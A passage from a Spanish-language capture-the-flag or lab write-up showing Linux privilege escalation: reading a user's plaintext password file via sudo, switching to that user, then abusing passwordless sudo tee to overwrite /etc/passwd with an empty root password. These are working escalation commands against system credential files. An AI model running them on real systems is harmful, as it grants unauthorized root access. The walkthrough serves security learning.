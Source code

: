```ruby
sudo -u carlos /usr/bin/tree /home/carlos/
```
```css
/home/carlos/
└── password

1 directory, 1 file

```

aqui puedo ver que existe un archivo llamado password en el directorio del usuario `carlos` asi que ahora lo puedo leer con el binario `/usr/bin/cat`

```ruby
sudo -u carlos /usr/bin/cat /home/carlos/password
chocolateado
```

y obtengo la password del usuario `carlos` por lo que escalo a `carlos`

```ruby
su carlos
Password:
```

### carlos

ahora chequeo los binarios que podria usar como root

```ruby
sudo -l
```
```css
[sudo] password for carlos: 
Matching Defaults entries for carlos on da46575086db:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on da46575086db:
    (ALL : NOPASSWD) /usr/bin/tee
```
para escalar a `root`, lo que hare primero sera copiar a un archivo el contenido de `/etc/passwd`

```ruby
cat /etc/passwd > escalada
```
ahora modifico la primero linea del archivo `escalada` quedando : `root::0:0:root:/root:/bin/bash` y procedo a usar el binario `/usr/bin/tee` para
modificar el archivo `/etc/passwd`

```ruby
cat escalada | sudo tee /etc/passwd
```
```css
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```
